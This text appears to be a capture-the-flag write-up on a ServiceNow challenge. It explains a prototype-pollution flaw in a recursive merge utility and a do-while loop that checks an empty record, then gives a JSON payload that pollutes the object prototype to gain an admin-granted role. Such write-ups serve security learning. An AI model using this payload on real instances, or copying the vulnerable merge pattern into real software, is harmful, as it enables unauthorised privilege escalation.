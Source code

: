 ```js
            if (isObject(base[key]) && isObject(obj[key])) {
                this.merge(base[key], obj[key]);

            } else if (key in base) {
                continue;

            } else {
                if (obj[key].constructor && obj[key].constructor.name.startsWith('Glide')) {
                    // To normalize special Glide Objects that can't be traversed
                    base[key] = obj[key].toString();
                } else {
                    base[key] = obj[key];
                }
            }
        }
        return base;
    },
    type: 'ServiceNowObjectUtils'
};
```

Taking a look at this, one should note that this is a classic case of an unsafe recursive object merge. This is a common vulnerability in javascript, and is known as Prototype Pollution. The `merge` function is recursive, and will merge objects together. However, if the object being merged has a prototype property, it will be copied over to the base object. This can be used to overwrite properties on the base object, and can be used to overwrite properties on the base `{}` object.

The next issue is in the actual `Administrator` script:
```js
var GlideRecordUtil = new global.GlideRecordUtil();
var RoleModUtils = new global.RoleModUtils();

var gr = new GlideRecord('sys_user_has_role');
gr.addQuery('role', '2831a114c611228501d4ea6c309d626d'); // admin
gr.query();

do {
    var user_role_obj = {};
    GlideRecordUtil.populateFromGR(user_role_obj, gr);
    if (user_role_obj.user == current.opened_by) {
        RoleModUtils.addRole(current.opened_by, 'c60206c2c30602102a53fdec05013190');
        workflow.scratchpad.admin_message = "lgtm, added flag_holder role";
        return true;
    }
} while (gr.next());
```

Its a very subtle issue, but if we look at the `GlideRecord` documentation, we need to actually call `gr.next()` first to get the first record queried. The subtle issue here is that in the first loop iteration, we are going to be referencing an empty object. We can use this to our advantage, combined with the prototype pollution vulnerability.

The solution here is to pass the following from the client as the "meta" variable.
```json
{
    "time": "5/15/2024, 1:54:18 AM",
    "submitter": "--sys-id--",
    "submitterName": "System Administrator",
    "constructor": {
        "prototype": {
            "user": "--sys-id--"
        }
    }
}
```
